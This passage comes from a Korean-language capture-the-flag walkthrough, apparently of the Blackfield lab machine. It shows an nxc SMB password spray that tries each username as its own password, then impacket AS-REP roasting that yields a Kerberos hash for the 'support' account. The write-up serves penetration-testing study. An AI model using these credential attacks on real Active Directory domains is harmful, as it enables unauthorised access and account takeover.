 - 수집한 계정명에 대해 동일한 아이디/패스워드로 스프레이 공격을 시도하였으나, 유효한 계정은 발견되지 않았다.  

```zsh
└─# nxc smb 10.129.229.17 -u SidTypeUsers -p SidTypeUsers --no-brute --continue-on-success   
SMB         10.129.229.17  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\DC01$:DC01$ STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\audit2020:audit2020 STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\support:support STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\svc_backup:svc_backup STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\lydericlefebvre:lydericlefebvre STATUS_LOGON_FAILURE
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-WEB$:SRV-WEB$ STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-FILE$:SRV-FILE$ STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-EXCHANGE$:SRV-EXCHANGE$ STATUS_LOGON_FAILURE 
SMB         10.129.229.17  445    DC01             [-] BLACKFIELD.local\SRV-INTRANET$:SRV-INTRANET$ STATUS_LOGON_FAILURE
```

## ASREP-Roasting

- [1] `impacket-GetNPUsers` 라이브러리를 사용하여 ASREP-Roastable 계정을 탐색한다.  
- [2] `support` 계정이 사전 인증이 필요하지 않은 ASREP-Roastable 계정임을 확인한다.  

```zsh
└─# impacket-GetNPUsers -request BLACKFIELD.local/ -usersfile SidTypeUsers -dc-ip 10.129.229.17 -no-pass -outputfile asrep.hash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:7892e8046c20fcf327dba8b81db9f650$0055317af8ba4528870eda6e2d32059c970b20e5f4d57992f52e37a1c3a9656fbcde43172a9a60c15ed25a9a0beb9e8f0fca777613febca7bfa0be5406693abaf2caffe1c6eed4d2895b43319d612d331fce8fafa52318863f92e9d6aa3f690aa85e85b21d2f7517d015bc8319925b1cf327b45f486ad015e6d0b86e74ede684f2656a67dc47ad2b0828b1b3e46e79b548ec7e26e25c59f4abca51c86784a4e43cb4a9121be524acd6c88f2215e1171b4995c1a1ab2b1ac482c24c6ee0adc6c26ce2a9bc8e3e605c0cdc1c08118cbe0a590c2a8ac983f9b75c37f944c71e300d99687d6dced7cfabc628649a0e17122da95b7fcf
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-WEB$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-FILE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-EXCHANGE$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SRV-INTRANET$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```
